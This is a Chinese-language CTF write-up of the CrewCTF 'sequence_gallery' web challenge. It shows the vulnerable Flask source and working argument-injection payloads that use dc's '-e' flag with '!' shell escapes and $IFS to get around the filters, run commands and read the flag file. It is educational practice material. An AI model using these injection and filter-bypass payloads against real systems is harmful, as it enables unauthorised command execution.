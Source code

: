 ```yaml
---
title: CrewCTF - sequence_gallery
tags: [CTF, CrewCTF, Web]

category: "Security/Practice/CrewCTF/Web"
---
```


# CrewCTF - sequence_gallery
<!-- more -->

## Background
[Command Injection](https://lab.feifei.tw/practice/ci/l1.php)
[dc command in Linux with examples](https://www.geeksforgeeks.org/dc-command-in-linux-with-examples/)
[Linux dc命令](https://deepinout.com/linux-cmd/linux-numerical-computation-cmd/linux-cmd-dc.html)
> dc -h
Usage: dc [OPTION] [file ...]
  -e, --expression=EXPR    evaluate expression
  -f, --file=FILE          evaluate contents of file
  -h, --help               display this help and exit
  -V, --version            output version information and exit
>
>Email bug reports to:  bug-dc@gnu.org .

## Source Code
:::spoiler Source Code
```python!
import os
import sqlite3
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=8080)

```
:::

## Recon
這一題看了一下source code，發現他只是用了sequence參數抓取`.dc`檔案，然後用subprocess另外執行，所以dc到底是一個甚麼樣的指令?看了其他網站[^dc_linux_command_eg][^linux_dc_command_zh]，發現它就只是一個calculator，然後他支援自己寫的腳本，所以他就是抓sequence這個get參數，然後做簡單的輸入字串驗證(不能有`flag`和空格)，所以可以想一下能不能用command injection的手法達到RCE，具體來說還是看了CTFTime上的WP[^CTFTime_WP]才知道可以用`!`接shell command，實際測試如下:
```bash!
$ dc -e \!ls
factorial.dc  fibonacchi.dc  flag.txt  main.py  power.dc  templates
```
```python!
$ python
>>> import subprocess
>>> subprocess.run(['dc', "-e !ls Web/sequence_gallery/dist/src"])
factorial.dc  fibonacchi.dc  flag.txt  main.py  power.dc  templates
CompletedProcess(args=['dc', '-e !ls Web/sequence_gallery/dist/src'], returncode=0)
```
兩者的區別是一般的shell需要特別用反斜線在驚嘆號前而在python的interactive mode不需要，所以我們就以python的環境來生成payload
:::warning
用一般的command injection做不出來，我試過`和$但都沒用，因為它是用subprocess去接所以格式不同，不然一般的shell是可以處理這些東西
:::
```python!
>>> subprocess.run(['dc', "`id`"])
dc: Could not open file `id`
CompletedProcess(args=['dc', '`id`'], returncode=0)
>>> subprocess.run(['dc', '"$(id)"'])
dc: Could not open file "$(id)"
CompletedProcess(args=['dc', '"$(id)"'], returncode=0)
```

## Exploit - Command Injection
1. 先測試一般的id能不能顯示
Payload: `-e !id` $\to$ Wrong(不能有空格)
Payloda: `-e%60!id` $\to$ Did not show(這邊試了很久，發現是我們的指令沒有一個換行)
Payload: `-e%60!id%0a` $\to$ Correct(所以其實中間的dummy string可以隨便設定以取代空格但一定要有換行)
2. 所以就可以用其他payload讀flag
    ```bash!
    /?sequence=-e`!ls%0A
    factorial.dc
    fibonacchi.dc
    flag.txt
    main.py
    power.dc
    templates
    '`' (0140) unimplemented 
    /?sequence=-e`!cat$IFS*.txt%0A
    crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}
    '`' (0140) unimplemented 
    ```
    :::info
    最後一個payload必須要是使用$IFS搭配*.txt，不能$IFSf*.txt，這樣會失敗，我想可能是因為字串之間會有衝突吧
    :::
    Flag: `crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`

3. Trick
用`dc` command執行`10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx`會顯示`DouULikeDC`的字樣，算是作者的小趣味

## Reference
[^CTFTime_WP]:[CTFTime WP](https://ctftime.org/writeup/37413)
[^dc_linux_command_eg]:[dc command in Linux with examples](https://www.geeksforgeeks.org/dc-command-in-linux-with-examples/)
[^linux_dc_command_zh]:[Linux dc命令](https://deepinout.com/linux-cmd/linux-numerical-computation-cmd/linux-cmd-dc.html)